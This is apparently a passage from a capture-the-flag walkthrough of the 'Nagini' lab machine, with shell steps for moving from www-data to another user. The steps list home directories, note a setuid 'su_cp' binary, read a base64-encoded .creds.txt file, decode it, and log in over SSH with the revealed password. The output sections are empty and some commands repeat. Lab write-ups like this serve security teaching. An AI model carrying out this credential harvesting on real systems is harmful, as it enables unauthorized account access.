






5.1.1 Privilege user "snape"
1. List the files of “hermonine” user.
www-data@Nagini:/home$cd /home/hermoine
www-data@Nagini:/home$ls -al
www-data@Nagini:/home/hermoine$cat horcrux2.txt
www-data@Nagini:/home$ls -al
www-data@Nagini:/home/hermoine$cat horcrux2.txt
Output:


You can't read the “horcux2.txt” file.
www-data@Nagini:/home/hermoine$cd bin
www-data@Nagini:/home/hermoine/bin$ls -al
www-data@Nagini:/home/hermoine/bin$ls -al

We saw that a binary
su_cp has setuid permission of hermoine. When we run the binary, we saw that it is an alternative to “cp” command of linux.2. List files of “snape" user.
www-data@Nagini:/var/www/html/joomla$cd /home/snape
www-data@Nagini:/home/snape$ls -al
www-data@Nagini:/home/snape$ls -al
Output:

www-data@Nagini:/home/snape$cat .creds.txt
Output:

Looks like we have a “base64” encoded text.
4. Let's decode it and see the password.
www-data@Nagini:/home/snape$cat .creds.txt | base64 -d
Output:

We have the password.
5. Connet via SSH with user 'snape".
$ssh snape@192.168.12.21
Passwword: Love@lilly